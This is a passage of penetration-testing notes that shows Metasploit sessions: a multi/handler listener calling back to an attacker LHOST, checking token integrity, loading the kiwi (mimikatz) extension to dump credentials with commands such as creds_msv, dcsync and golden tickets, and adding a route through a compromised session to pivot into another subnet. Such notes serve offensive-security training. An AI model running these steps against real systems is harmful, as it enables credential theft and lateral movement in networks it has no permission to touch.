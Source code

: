 ```bash
msf6 exploit(multi/handler) > set SESSION 9
msf6 exploit(multi/handler) > set LHOST 192.168.119.4
msf6 exploit(multi/handler) > run

# Get back to EP bypass shell with NTObjectManager imported
PS C:\Windows\system32> Get-NtTokenIntegrityLevel
High
```

Loading extensions in Metasploit:

```bash
meterpreter > load kiwi
meterpreter > help
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

meterpreter > creds_msv

```

### Pivoting with Metasploit

Setting up a route through an open session:

```bash
# Gather network information to find a second network connected
PS C:\Windows\System32> ipconfig

# Background the session and create a route for it
meterpreter > bg
[*] Backgrounding session 12...

msf6 exploit(multi/handler) > route add 172.16.5.0/24 12
[*] Route added
msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12
```